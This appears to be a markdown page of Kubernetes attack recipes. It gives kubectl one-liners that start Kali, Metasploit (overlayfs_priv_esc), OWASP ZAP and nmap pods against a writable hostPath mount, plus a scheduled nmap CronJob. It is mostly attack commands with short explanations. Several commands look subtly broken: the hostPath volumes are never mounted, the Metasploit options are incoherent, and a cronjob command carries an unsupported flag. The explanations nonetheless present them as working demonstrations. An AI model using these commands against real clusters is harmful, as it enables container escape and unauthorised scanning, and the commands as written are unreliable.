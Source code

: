 

### Writable hostPath mount


1. Using Kali Linux as the attacker container:

```
kubectl run kali-attack --image=kalilinux/kali-rolling --overrides='{"spec": {"containers": [{"name": "kali-attack", "command": ["bash", "-c", "echo 'Attacking the host...' && touch /hostpath/malicious_file.txt && echo 'Attack successful!'"]}],"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}'
```

Explanation: This command creates a Kubernetes pod named `kali-attack` using the Kali Linux container image. It overrides the container spec to run a bash command that creates a file named `malicious_file.txt` in the host's writable path `/hostpath`. This could be used to demonstrate the vulnerability of a writable hostPath mount.


2. Using Metasploit framework for network penetration testing:

```
kubectl run metasploit-attack --image=metasploitframework/metasploit-framework --overrides='{"spec": {"containers": [{"name": "metasploit-attack", "command": ["bash", "-c", "echo 'Exploiting the host...' && msfconsole -x 'use exploit/linux/local/overlayfs_priv_esc; set SESSION 1; set TARGET /hostpath; exploit'"]}],"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}'
```


Explanation: This command creates a Kubernetes pod named `metasploit-attack` using the Metasploit Framework container image. It overrides the container spec to run a bash command that exploits the overlayfs_priv_esc vulnerability on the host's writable path `/hostpath`. This demonstrates the potential risk of a writable hostPath mount.


3. Using OWASP ZAP for web application security testing:

```
kubectl run zap-attack --image=owasp/zap2docker-stable --overrides='{"spec": {"containers": [{"name": "zap-attack", "command": ["zap-baseline.py", "-t", "http://target-host", "-g", "-r", "/hostpath/zap_report.html"]}],"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}'
```

Explanation: This command creates a Kubernetes pod named `zap-attack` using the OWASP ZAP container image. It overrides the container spec to run the `zap-baseline.py` script, which performs a baseline scan on the target host (replace `http://target-host` with the actual target URL). The generated report is saved as `zap_report.html` in the host's writable path `/hostpath`. This showcases how a container can be used for automated security testing, with the results stored in a writable hostPath mount.


### Kubernetes CronJob

1. Using Nmap for network scanning:

```
kubectl create cronjob nmap-scan --image=nmap/nmap --schedule="0 0 * * *" --overrides='{"spec": {"jobTemplate": {"spec": {"template": {"spec": {"containers": [{"name": "nmap-scan", "command": ["nmap", "-p", "1-1000", "target-host"]}]},"volumes": [{"name": "hostpath", "hostPath": {"path": "/hostpath"}}]}}}}}'
```
